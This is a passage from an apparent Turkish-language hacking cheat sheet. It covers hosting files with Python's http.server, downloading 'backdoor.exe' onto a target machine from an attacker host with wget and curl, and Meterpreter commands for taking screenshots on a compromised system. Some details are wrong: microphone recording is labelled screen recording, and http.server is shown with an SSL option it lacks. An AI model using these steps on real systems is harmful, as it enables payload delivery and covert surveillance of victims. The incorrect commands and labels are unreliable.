 ```bash
# Python 3 ile web sunucusu başlat
python3 -m http.server 8080

# Belirli bir dizinde sunucu başlat
cd /path/to/files
python3 -m http.server 8080

# Farklı port kullan
python3 -m http.server 9000
```

### 🔗 **Erişim ve Kullanım:**
```
# Tarayıcıdan erişim
http://192.168.1.10:8080

# Wget ile dosya indirme (hedef cihazda)
wget http://192.168.1.10:8080/backdoor.exe

# Curl ile dosya indirme
curl -O http://192.168.1.10:8080/backdoor.exe
```

### 🛡️ **Güvenlik Önlemleri:**
```bash
# Sadece belirli IP'lerden erişime izin ver
python3 -m http.server 8080 --bind 192.168.1.10

# SSL sertifikası ile güvenli bağlantı
python3 -m http.server 8080 --bind 192.168.1.10 --certfile cert.pem
```

---

## 5️⃣ Ekran Görüntüsü Ele Geçirme 📸

### 💻 **Meterpreter ile Ekran Görüntüsü:**
```bash
# Anlık ekran görüntüsü al
screenshot

# Belirli bir kalitede ekran görüntüsü
screenshot -q 100

# Ekran görüntüsünü belirli bir konuma kaydet
screenshot /tmp/ekran.png
```

### 🎬 **Ekran Kaydı Alma:**
```bash
# Ekran kaydı başlat
record_mic -d 60

# Belirli süre ekran kaydı
record_mic -d 120

# Kaydı belirli konuma kaydet
record_mic -d 60 -f /tmp/kayit.wav
```
